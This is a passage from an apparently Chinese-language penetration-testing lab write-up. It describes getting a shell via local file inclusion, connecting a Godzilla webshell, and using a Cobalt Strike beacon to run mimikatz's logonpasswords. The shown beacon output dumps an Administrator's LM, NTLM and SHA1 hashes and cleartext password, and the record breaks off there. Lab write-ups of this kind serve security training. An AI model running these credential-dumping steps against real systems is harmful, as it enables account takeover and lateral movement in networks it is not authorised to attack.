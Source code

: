 - 本地文件包含成功`getshell`,配置一下哥斯拉代理并连接(配置里改)

![image-20250318140044368](./assets/image-20250318140044368.png)

- 传入`cs`抓取明文密码

```cmd
[03/18 14:04:58] beacon> logonpasswords
[03/18 14:04:59] [*] Process Inject using fork and run.
[03/18 14:04:59] [*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[03/18 14:04:59] [+] host called home, sent: 313860 bytes
[03/18 14:05:01] [+] received output:

Authentication Id : 0 ; 15745542 (00000000:00f04206)
Session           : CachedInteractive from 1
User Name         : Administrator
Domain            : WHOAMIANONY
Logon Server      : DC
Logon Time        : 2025/3/18 9:55:29
SID               : S-1-5-21-1315137663-3706837544-1429009142-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * LM       : 56b0cd8b125c05055e2dd9e955f18034
	 * NTLM     : ab89b1295e69d353dd7614c7a3a80cec
	 * SHA1     : 2bc4124300a6a8fc0ca10891823d36c64e4b3a40
	tspkg :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * Password : Whoami2021
	wdigest :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * Password : Whoami2021
	kerberos :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY.ORG
```